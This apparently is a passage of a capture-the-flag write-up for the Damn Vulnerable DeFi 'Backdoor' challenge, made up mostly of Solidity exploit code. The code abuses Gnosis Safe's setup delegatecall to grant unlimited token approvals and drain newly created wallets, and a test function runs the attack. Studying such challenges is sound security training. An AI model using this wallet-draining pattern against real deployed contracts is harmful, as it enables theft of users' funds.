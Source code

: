 2. The main attack function:

```solidity
function attack() external {
    for (uint256 i = 0; i < users.length; i++) {
        address beneficiary = users[i];

        // Create Safe wallet for the beneficiary with malicious setup
        address[] memory owners = new address[](1);
        owners[0] = beneficiary;

        bytes memory maliciousCalldata =
            abi.encodeWithSelector(this.approveToken.selector, address(token), address(this), type(uint256).max);

        bytes memory initializer = abi.encodeWithSelector(
            Safe.setup.selector,
            owners,
            1, // threshold
            address(this), // to
            maliciousCalldata, // data
            address(0), // fallbackHandler
            address(0), // paymentToken
            0, // payment
            payable(address(0)) // paymentReceiver
        );

        SafeProxy proxy = walletFactory.createProxyWithCallback(
            address(singletonCopy), initializer, uint256(uint160(beneficiary)), walletRegistry
        );

        // Transfer tokens from the Safe to the recovery address
        uint256 safeBalance = token.balanceOf(address(proxy));
        token.transferFrom(address(proxy), recoveryAddress, safeBalance);
    }
}
```

3. The `approveToken` function that gets called during Safe setup:

```solidity
function approveToken(address _token, address spender, uint256 amount) external {
    DamnValuableToken(_token).approve(spender, amount);
}
```

4. The test setup and execution in `BackdoorChallenge`:

```solidity
function test_backdoor() public checkSolvedByPlayer {
    BackdoorAttack attackContract = new BackdoorAttack(
        address(singletonCopy), address(walletFactory), address(token), address(walletRegistry), users, recovery
    );

    attackContract.attack();
}
```
